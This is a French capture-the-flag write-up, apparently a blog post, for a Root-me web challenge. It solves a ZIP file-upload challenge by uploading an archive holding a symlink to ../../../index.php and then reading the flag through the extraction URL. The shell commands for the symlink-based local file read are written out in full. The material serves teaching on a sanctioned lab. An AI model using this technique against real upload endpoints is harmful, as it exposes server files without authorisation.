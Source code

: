 ```yaml
---
title: Root-me - Web Server - File Upload - ZIP
meta_title: ""
description: Récupérer la page index.php.
date: 2024-16-07T05:00:00Z
image: /images/rootme_logo.png
categories:
  - Web
  - Moyen
author: Emma.exe
tags:
  - Web
  - Rootme
draft: false
---
```


## Introduction

Dans ce challenge, nous devons récupérer l'index.php qui contient le flag grâce à l'upload d'un fichier.

Ce fichier va ensuite être zippé et décompressé.

Pour la résolution de ce challenge je vous propose deux niveaux d'aide :

- Le premier niveau sous la forme d'indices et de ressources à explorer pour résoudre le challenge, sans pour autant donner la solution
- Le deuxième niveau qui présente un exemple de résolution.

{{< notice "tip" >}} Essayez de ne pas regarder la solution si vous voulez vraiment progresser. Une fois le challenge résolu, il peut être intéressant de la regarder pour apprendre de nouvelles techniques ! {{< /notice >}}

## Résolution
{{< tabs >}} {{< tab "Niveau 1" >}}

Afin de résoudre ce challenge, je vous conseille d'effectuer une veille sur les différentes attaques possibles sur les file upload en lien avec des fichiers ZIP.

Je vous conseille aussi de regarder le fonctionnement d'une LFI (Local File Inclusion). Il s'agit d'une vulnérabilité permettant de récupérer un fichier local.

Ressource : https://book.hacktricks.xyz/pentesting-web/file-inclusion

{{< /tab >}}

{{< tab "Niveau 2" >}}
En effectuant une veille, on trouve rapidement cette documentation : https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/

Cela explique que l'on peut faire une LFI avec des liens symboliques de la façon suivante : 

1. Création du lien symbolique de index.php situé plus haut (3 étages plus haut): 
```sh
ln -s ../../../index.php index.txt
```

2. On zip avec l'option `--symlink` afin de conserver les liens symboliques :
```sh
zip --symlink rce.zip index.txt
```

3. Upload de rce.zip et accéder à l'URL : 
```
http://challenge01.root-me.org/web-serveur/ch51/tmp/upload/668d41125f3e61.78612596/index.txt
```

On obtient normalement la page index.php qui contient le flag.

{{< /tab >}} {{< /tabs >}}
